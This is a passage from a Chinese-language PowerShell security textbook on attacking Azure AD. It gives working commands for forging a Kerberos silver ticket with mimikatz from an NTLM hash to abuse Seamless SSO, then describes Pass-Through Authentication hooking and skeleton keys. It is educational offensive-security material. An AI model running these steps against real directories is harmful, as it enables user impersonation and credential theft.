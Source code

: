 此命令需要直接在 DC 上执行，或者由可以复制信息的帐户执行（请参考*第六章*中的 DCSync 攻击信息，*Active Directory – 攻击* *与缓解*）。

一旦我们获得了该 NTLM 哈希（在此示例中，**a7d6e2ca8d636573871af8d4db34f236**），我们将把它保存在`$ntlmhash`变量中，稍后会利用这个变量：

```
> $ntlmhash = "a7d6e2ca8d636573871af8d4db34f236"
```

接下来，我们需要域和 SID。如果我们例如想要伪装成用户`PSSec-User`，以下命令将帮助我们获取所需信息：

```
$user = "PSSec-User"
$domain = (Get-CimInstance -ClassName Win32_ComputerSystem).Domain
$sid = ((New-Object System.Security.Principal.NTAccount($user)).Translate([System.Security.Principal.SecurityIdentifier])).Value
```

现在，我们使用之前收集的所有信息，通过`mimikatz`创建我们的银票：

```
> .\mimikatz.exe "kerberos::golden /user:$user /sid:$sid /id:666 /domain:$domain /rc4: $ntlmhash /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
```

启动 Mozilla Firefox 并输入`about:config`。将 `network.negotiate-auth.trusted-uris` 配置为包含以下值：`https://aadg.windows.net.nsatc.net,**  **https://autologon.microsoftazuread-sso.com.`

现在，你可以通过浏览到任何与你的 AAD 域集成的 Web 应用程序，并利用无缝 SSO 访问它。

## 利用通行认证（PTA）

之前我们简要谈到过 PTA，这是一种认证概念，允许用户使用其本地凭据登录云端资源。

利用 PTA 是攻击者绕过合法认证过程的一种方法，通过挂钩系统用来通过 PTA 进行用户身份验证的 `advapi32.dll` 中的一个相关 `LogonUser*` 函数。通过将此函数替换为自己的恶意函数，攻击者不仅可以读取所有用于身份验证的密码，还可以实施自己的 **骨架钥匙**，使他们能够以每个用户的身份进行身份验证，而无需重置单个用户账户的密码。你可以将骨架钥匙想象成类似于主密码，使攻击者能够以任何用户的身份进行身份验证，而无需重置单个用户账户密码。

为了使此攻击有效，存在两个要求：首先，环境需要启用 PTA 的 AAD Connect；其次，攻击者需要访问一个具有管理员权限的账户，该账户可以访问安装了 PTA 认证代理的服务器。

让我们首先看看 PTA 如何工作。下图展示了 PTA 工作流的样子：

![图 7.23 – PTA 工作流](img/B16679_07_023.jpg)
